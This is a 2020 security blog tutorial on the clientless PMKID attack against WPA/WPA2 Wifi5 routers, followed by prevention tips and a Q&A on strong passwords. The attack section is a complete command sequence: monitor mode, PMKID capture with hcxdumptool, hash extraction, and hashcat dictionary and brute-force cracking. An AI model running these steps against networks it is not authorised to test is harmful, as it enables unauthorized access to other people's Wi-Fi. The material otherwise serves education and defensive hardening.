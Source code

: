 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) finds a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 Access Points (APs) (with roaming feature) without client involved.  That is 4-way handshake is no longer required - clientless.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods (except Fake Access Point attack) have been tried on the Deco X20 but failed including PMKID attack (tested on March 19, 2020) and [KR00K attack](https://hexway.io/research/r00kie-kr00kie/)  (CVE-2019-15126) (tested on March 21, 2020).  KR00K attack fails as Deco X20 is using Qualcomm IPQ8070 chipset instead of Broadcom's.  [KRACK](https://www.krackattacks.com/) was not tested as Support of TP-Link Deco Apps mentioned that Deco X20 is not vulnerable to this attack.  I think PMKID attack cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)  
- All tested clients are in AC mode with WPA2  
- TP-Link Deco X20 is set to WPA2 only  

The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ```:``` from the address.  For example, from ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan -c 36
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3 -c 36
```

When you see ```[FOUND PMKID]``` or/and ```[FOUND PMKID CLIENT-LESS]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

### Prevention

- Purchase a modern wifi router (**or** when your router is vulnerable to KR00K attack), such as Wifi6 router with WPA3; or  
- WPA/WPA2 password should be secured enough (when your router is not vulnerable to KR00K attack)  

### Q&A

- Which wifi router is vulnerable to KR00K attack?  
All the Wifi5 (IEEE 802.11ac) routers with Broadcom chipset are vulnerable to KR00K attack.  

- What do you mean secured password?  
It should be a very long (longer than 16 characters) and mixed cases (uppercase and lowercase) as well as including printable symbols.  Meanwhile, the password should not be predictable and it should not be found in any dictionary.  It should be better that the password is meaningless.

- What do you mean dictionary?  
It includes general dictionaries, such as Oxford Dictionary and hackers' dictionaries (password lists), such as ```rockyou.txt```. 

- Do you recommend to set **insecured** WPA3 password on Wifi6 router?  
Not recommended.  

Samiux  
OSCE  OSCP  OSWP  
March 19, 2020, Hong Kong, China  
Updated on March 21 & 22, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

